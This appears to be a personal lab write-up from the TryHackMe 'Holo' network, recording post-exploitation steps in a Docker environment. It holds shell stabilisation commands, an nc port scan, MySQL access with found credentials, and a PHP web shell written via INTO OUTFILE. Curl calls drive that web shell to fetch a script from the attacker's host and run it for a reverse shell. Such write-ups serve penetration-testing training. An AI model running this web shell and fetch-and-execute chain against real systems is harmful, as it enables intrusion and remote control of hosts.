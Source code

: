 - **Reverse shell** from [[PNPT/THM Boxes/Holo/10.200.107.33/Port 80]]
- Let's get a proper shell first
	- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	- `Ctrl + Z`
	- `stty raw -echo; fg`
	- `export TERM=xterm`

 - Clearly, a docker container with ip ==`192.168.100.100:
	 - ![[Pasted image 20250405050408.png]]
	 - ![[Pasted image 20250405063236.png]]
- Found more `credentials` : `admin : !123SecureAdminDashboard321!`
![[Pasted image 20250405063108.png]]
- ==`192.168.100.1` looks like another `container` running==:
- Scan using `nc`:
	- `nc -zv 192.168.100.1 1-65535`
		- ![[Pasted image 20250405063345.png]]

# 192.168.100.1
---
- From THM guide:
	- ![[Pasted image 20250405063639.png]]

- `mysql -h 192.168.100.1 -u admin -p`
	- ![[Pasted image 20250405063826.png]]
- `use DashboardDB;`
- `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell_drass.php';`
- Invoke the shell using:
	- `curl 192.168.100.1:8080/shell_drass.php?cmd=hostname`
	- ![[Pasted image 20250405065156.png]]
- Looks like this is our **==linux machine==**
- Getting shell using `bash` shell:
	- `curl 192.168.100.1:8080/shell_drass.php?cmd=wget%2010%2E50%2E103%2E180%3A8000%2Fbash%5Fshell%2Esh`
	- `curl 192.168.100.1:8080/shell_drass.php?cmd=chmod%20%2Bx%20bash%5Fshell%2Esh`
	- `curl 192.168.100.1:8080/shell_drass.php?cmd=bash%20bash%5Fshell%2Esh`